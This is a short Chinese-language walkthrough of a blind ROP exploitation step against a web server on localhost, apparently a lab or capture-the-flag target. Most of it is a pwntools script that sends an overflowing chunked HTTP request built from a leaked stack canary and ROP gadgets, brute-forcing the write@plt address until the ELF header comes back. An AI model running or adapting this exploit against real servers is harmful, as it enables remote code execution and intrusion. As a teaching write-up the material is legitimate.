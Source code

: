 我们从0x400000开始取字符串，将会取到"\x7f\x45\x4c\x46\x02\x01\x01" == "\x7fELF\x02\x01\x01" 这7个字节的字符串

```
ssize_t write(int handle, void *buf, int nbyte)
handle 是 文件描述符；         				 edi
buf是指定的缓冲区，即 指针，指向一段内存单元；		esi
nbyte是要写入文件指定的字节数；					 edx
返回值：写入文档的字节数（成功）；-1（出错）
```

我在控制edx的时候发现，rsi的地址影响edx的值，我们控制edx是控制写入的长度，所以我就使用地址0x400020(PHT file offset)，让edx为0x40

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def get_write_plt(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget, strcmp_plt, start_addr=0x400000):
    write_plt = start_addr
    while 1:
        write_plt = write_plt + 0x10
        for i in range(1,50):
            s = connect("127.0.0.1", 80)
            s.send(
                base_payload + "A" * canary_offset + canary + 'A' * buf_size + p64(useful_gadget + 7) + p64(0x400020) + p64(
                    0) + p64(useful_gadget + 9) + p64(0x400000) + p64(strcmp_plt) + p64(useful_gadget + 7) + p64(0x400000) + p64(
                    0x400000) + p64(useful_gadget + 9) + p64(i) + p64(write_plt) + p64(stop_gadget) * (depth - 13))
            try:
                checkstr = s.recv(timeout=0.5)
                s.close()
                if "ELF" in checkstr:
                    log.info("find write_plt,0x%x",write_plt)
                    return write_plt
                log.info("not write_plt:0x%x  fd:0x%x", write_plt, i)
            except:
                s.close()
                log.info("not write_plt:0x%x  fd:0x%x", write_plt,i)
                
if __name__ == "__main__":
    canary_offset = 5066
    canary = "\x00\x81\xdf\x79\x04\x9d\x8b\x37"
    buf_size = 24
    stop_gadget = 0x402580
    depth = 44
    useful_gadget = 0x430c5f
    strcmp_plt = 0x402920
    write_plt = get_write_plt(canary_offset, canary, buf_size, stop_gadget, depth, useful_gadget, strcmp_plt)
```
